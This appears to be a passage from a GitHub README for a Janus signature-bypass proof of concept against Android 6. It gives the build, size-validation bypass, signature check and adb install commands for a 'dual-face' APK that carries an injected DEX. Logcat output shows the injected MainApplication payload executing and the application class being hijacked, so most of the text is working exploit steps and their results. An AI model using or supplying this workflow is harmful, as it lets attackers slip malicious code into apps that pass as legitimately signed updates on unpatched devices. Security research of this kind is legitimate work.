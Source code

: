 ### 3. Build the Dual-Face APK
```bash
# Original signed APK → dual-face test APK
python3 make_janus_proper_old.py app-release23.apk \
                                nuclear_mainapp.dex \
                                janus-nuclear-test.apk
```

### 4. Bypass Size Validation
```bash
python3 scam_android.py janus-nuclear-test.apk \
                        janus-nuclear-final.apk
```

### 5. Verify Signature still passes
```bash
$ANDROID_SDK_ROOT/build-tools/35.0.0/apksigner verify --verbose janus-nuclear-final.apk
```

### 6. Deploy and Install
```bash
adb push janus-nuclear-final.apk /storage/emulated/0/Download/

# macOS / Linux
adb shell am start -a android.intent.action.VIEW \
                   -d file:///sdcard/Download/janus-nuclear-final.apk \
                   -t application/vnd.android.package-archive

# Windows (PowerShell / cmd)
adb shell am start ^
  -a android.intent.action.VIEW ^
  -d file:///sdcard/Download/janus-nuclear-final.apk ^
  -t application/vnd.android.package-archive
```

## Observed Results

**Signature Verification**: PackageManager accepted the APK as a legitimate update with valid signatures

**Malicious Code Execution**: ART Runtime loaded and executed the injected MainApplication payload

**Logcat Evidence**
```
08-05 20:16:27.961  3648  3648 I System.out: 🚨🚨🚨 JANUS STATIC BLOCK EXECUTED! 🚨🚨🚨
08-05 20:16:27.961  3648  3648 E JANUS   : 🚨🚨🚨 STATIC BLOCK: MainApplication class loaded! 🚨🚨🚨
08-05 20:16:27.961  3648  3648 E JANUS   : 🚨 CONSTRUCTOR: MainApplication() called! 🚨
08-05 20:16:27.961  3648  3648 E JANUS   : 🚨 ATTACH: attachBaseContext() called! 🚨
08-05 20:16:27.961  3648  3648 E JANUS   : 💥 JANUS NUCLEAR: MainApplication.attachBaseContext() - Android 6 TARGET!
08-05 20:16:27.972  3648  3648 E JANUS   : 🚨 Android 6.0 Application class completely hijacked! 🚨
```
